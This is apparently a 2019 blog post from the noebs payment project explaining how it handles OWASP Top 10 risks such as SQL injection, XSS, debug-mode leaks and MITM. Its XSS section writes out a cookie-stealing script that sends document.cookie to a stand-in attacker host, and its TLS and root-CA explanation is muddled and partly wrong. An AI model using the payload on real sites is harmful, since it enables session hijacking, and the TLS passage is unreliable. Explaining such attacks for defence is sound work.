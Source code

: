 +++
date = 2019-08-23
linktitle = "How are we tackling OWASP 10 at noebs"
excerpt = "The Open Web Application Security Project, or OWASP, is an international non-profit organization dedicated to web application security. One of OWASP’s best-known project is the OWASP Top 10."
title = "How are we addressing OWASP Top 10 at noebs"
author = "Mohamed Yousif"

tags =  [
	"noebs",
	 "electronic-payment",
	 "owasp",
	 "security",
	 "payment-systems"
]
url = "/owasp"
+++

**OWASP** The Open Web Application Security Project is an international non-profit organization dedicated to web application security. They're best know by OWASP Top 10, a curated list of top 10 most critical security risks. This post will highlight some of the practices we are following at Solus while building our systems.

# SQL injection
This is one of the very common and the first item in OWASP Top 10. In it's simplest form, it is about sending a sql code through e.g., HTML Form input field. For this to work, the server must be *enabling* executing such an action. Let's take this simple example (using Python):

```python
form = request.form()
username = form["username"]   # there's an form field called username
sql.exec(username)    # This is a _sql injection_
```
It is almost always bad to execute raw sql queries. In fact, unless you DB is read-only, there's no need at ALL to allow raw sql queries execution.

The solution is: Don't allow raw sql execution.

# Broken Authentication
This can be broken into two categories:
- you're either building an insecure authentication system that exposes your users' data,
- or, your login system allows repeated logins attempts (brute-forcing)

We are using the industry standard practice here. We are using JWT for most of our authorization, while _planning_ to use session cookies for browser based ones. There are huge debates about JWT and session cookies, but it is all boils down to your whole system design. Sometimes, JWT fits to the whole system (if your target clients are Android/iOS), and sometimes session cookies are great, esp if you target clients are browser based.


For this, we have two solutions:
- We are using HSTS (HTTP Strict Transport Security).

> HSTS causes compliant browsers to strictly enforce web security practices. Specifically, it automatically turns all HTTP links into HTTPS links within an application, and it upgrades all SSL errors from warnings or bypassable errors into non-bypassable errors.

# XSS (Cross-site scription)
An attacker can send a malicious JS code (in the client code). It can be as bad as copying the user's cookies and gain control access to their session.

Suppose that you have an HTML form that allows your users to write some notes about their transactions, here is a sample code:
```html
<form>
<input type="text">
<label>Type your note here</label>
</form>
```
The user's form will be submitted __and__ rendered in a new page! Now this is very dangerous and it what leads to XSS security breaches. Let's see this in action. The next HTML page which will render the form result is like this:

```html
<!-- skipping through HTML head -->
<div>
<!-- form results go here -->
</div>

```
We expect our users to input stuff like time, text data BUT NOT JS CODE! What happens, if the users submitted `<script>alert("You have been spawned!")</script>`. This will launch a JS code from suspecious user's input. Now, this code can be even worse and accesses the user's cookies.

## How the attacker can log your cookies
It is quite simply actually. You can access your website cookie by accessing the cookie property of document class:
- use your browser inspector and go to console
- print document.cookie
and now you can access your cookies!

Now if the attacker wants to get that cookie, they will need to send it somewhere (most likey to a server/website they own)

- the attacker submits an unsafe js code that redirects the users to a new website (where they will log the cookie)
- now, the attacker does have access to your session and can do whatever they want while they are there (they can see your payment card info for instance, they can even submit a transaction assuming that your PIN is 0000 or your birthday)
The JS code to get your cookie is just this:
`
<script>
document.location="http://mybadwebsite.com/?cookie_handler=" + document.cookie
</script>
`
__This can be even smarter by redirecting the user back to their original website!__

And now, when the user submits that un-sanitized inputs, it will:
- redirect them to a new website `http://mybadwebsite.com`
- it submits their cookie `document.cookie` to that website!

Here are a few steps you can follow to be safe against these types of attacks:
- Sanitize your users' inputs! In GO `template/html` library (the templating engine in GO, much like jinja2), it by default scapes HTML and JS tags
- If your website is something is form-like, there are a few things you can adopt:
	- let your users use markdown (it is safer)
	- you can specify some HTML elements as safe (e.g., `<p>, <a>`), and escape the rest. In this case, you will allow your users to have rich text experience

## The solution to all of the above issues is very simple: USE A FRAMEWORK!

The solution to all of the above issues is very simple, use a web framework! All of the modern web frameworks solves these rather naive secruity issues! I have worked with Python (Django and Flask and Starlette) and I've also worked with GO, all of them have built-in support for these common security issues! So, in practice, adapting *any* of modern web framework will save you from all of these issues, for free!

## Modern security challenges
TODO write about different pages for email entering and password entering

## Security Misconfigurations

I have seen this in the wild very recently in a payment system. We as developers love to have excessive stack trace and error reports while developing our services. Because there are so many errors we ought to face, it is very important that we get the whole stack trace so we get more insights into our error and fix it. However, that must stay in the development face ONLY! These stack traces (and perhaps other info) are very useful for attackers to gain access to your server.

Many of web frameworks (Django for instance) have DEBUG mode where instead of returing 500 INTERNAL SERVER ERROR, they also include the stack trace (when DEBUG=True) in Django `settings.py`. While this is very important while developing, it is very catastrophic in real life!

# Sensitive data exposure and MITM
We work in payment systems and it is very important to secure our user's data (their payment card info). These systems must adhere to even strictier rules than what OWASP offers as they have VERY sensitive data. PCI-DSS compliancy should be a #1 target for such systems and they shoud monitor and audit their systems and upgrade them regularly. _Security should be a profound part of their system design!_

> While getting EBS certificate is quite enough to have a secure system, we know that vendors often tend to modify their EBS-certified systems. This is a huge issue and it renders the whole EBS certification part useless.

## What we do in noebs to secure your data
- KISS (keeping it simple, stupid!). We are keeping it simple: we are only storing your PAN and expiration date, we don't store anything else!
- We had long discussions about storing PAN and expiration date, but we plan to change the way we store them VERY SOON!
- We have a Zero-log policy, so even if an attacker has breached our system, they will find no useful data!

## MITM Attacks
Man in the middle attacks are a very special and interesting class of attacks.
- You are using https for securing your system
- You have successfully solved CSRF, XSS and SQL Injections (hooray!)
- and now everything is fine, right?

As we know, TLS certificates are used to encrypt our request and make it secure. They are to be unbroken since the protocol is a public-private key exchange to decypher the http request. Meaning that, there's only one private key (in the server), and each client has their unique public key. So what could possibly go wrong?
Telecos (or MITM attackers) inject a tampered root CA in the host machine and replace their original one. When you send your "secure" request, it is being encrypted using the new root CA and sent to the server.
The attacker, having acquired your root CA, can then decypher your network traffic and have access to all of it.
